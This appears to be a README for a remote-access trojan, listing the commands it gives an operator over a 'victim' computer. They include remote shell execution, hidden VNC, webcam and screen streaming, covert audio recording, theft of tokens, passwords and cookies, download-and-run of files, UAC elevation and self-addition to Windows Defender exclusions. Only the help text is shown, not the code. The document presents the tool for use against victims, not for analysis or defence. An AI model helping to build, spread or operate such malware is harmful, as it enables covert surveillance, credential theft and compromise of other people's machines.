 # COMPLETELY UPDATED

MADE IT TO WHERE IF IT IS RAN AS ADMIN IT IMMEDIATELY ADDS IT SELF TO EXCLUSIONS WINDOWS DEFENDER, AND IF THEY ACCEPT THE UAC PROMPT WHEN YOU DO !getadmin IT WILL AUTOMATICALLY ADD IT SELF TO THE EXCLUSIONS TO

# COMMANDS ⬇

        {"name": f"{PREFIX}screenshot", "value": "Takes a screenshot of the system and sends it to the channel"},
        {"name": f"{PREFIX}shell", "value": "Executes a shell command on the victim and returns the output"},
        {"name": f"{PREFIX}hiddenvnc", "value": "Remote screen control with interactive GUI"},
        {"name": f"{PREFIX}restart", "value": "Does what it says, restarts the victims computer"},
        {"name": f"{PREFIX}bluescreen", "value": "Bluescreens the victims computer"},
        {"name": f"{PREFIX}vnchelp", "value": "All commands for hiddenvnc"},
        {"name": f"{PREFIX}chat", "value": "Opens a chat where you can then talk to the victim"},
        {"name": f"{PREFIX}endchat", "value": "Will close the chat window"},
        {"name": f"{PREFIX}grabtoken", "value": "Grabs all tokens on victims computer"},
        {"name": f"{PREFIX}disableav", "value": "Doesnt Disable AV but adds itself to exclusions if it has admin"},
        {"name": f"{PREFIX}getadmin", "value": "Pops up with a UAC prompt and if accepted you get admin"},
        {"name": f"{PREFIX}webcam", "value": "Takes a photo using the system's webcam and sends it to the channel"},
        {"name": f"{PREFIX}screen [duration]", "value": "Provides a live view of the screen, updating every 0.5 seconds. Optional duration in seconds (default: 30, max: 300)"},
        {"name": f"{PREFIX}stopscreen", "value": "Stops the live screen view"},
        {"name": f"{PREFIX}grabpasswords", "value": "Might grab all passwords depending on browser"},
        {"name": f"{PREFIX}webcamstream [duration]", "value": "Provides a live view of the webcam, updating every 0.5 seconds. Optional duration in seconds (default: 30, max: 300)"},
        {"name": f"{PREFIX}stopwebcam", "value": "Stops the live webcam view"},
        {"name": f"{PREFIX}media", "value": "Plays a media file on the target system. Attach an MP4, MP3, or other media file to your message"},
        {"name": f"{PREFIX}search [query]", "value": "Searches Google for the specified query and displays it in full screen"},
        {"name": f"{PREFIX}background", "value": "Changes the desktop background. Either attach an image or provide a URL to an image"},
        {"name": f"{PREFIX}clipboard [text]", "value": "Without text: Shows the current clipboard contents. With text: Sets the clipboard to the provided text."},
        {"name": f"{PREFIX}grabcookies", "value": "Grabs all cookies from browsers."},
        {"name": f"{PREFIX}downloadfileandrun", "value": "Downloads an attached file and runs it on the target system. Attach the file you want to execute."},
        {"name": f"{PREFIX}disableaudio", "value": "Disables (mutes) the system audio until enabled again"},
        {"name": f"{PREFIX}enableaudio", "value": "Enables (unmutes) the system audio"},
        {"name": f"{PREFIX}shutdown [delay]", "value": "Shuts down the target computer. Optional delay in seconds (default: 0)"},
        {"name": f"{PREFIX}end", "value": "Terminates the bot process on the target system"},
        {"name": f"{PREFIX}help", "value": "Shows this help message"},
        {"name": "Background Audio Recording", "value": "The system automatically records audio in 30-second segments and uploads them to the system's channel"}

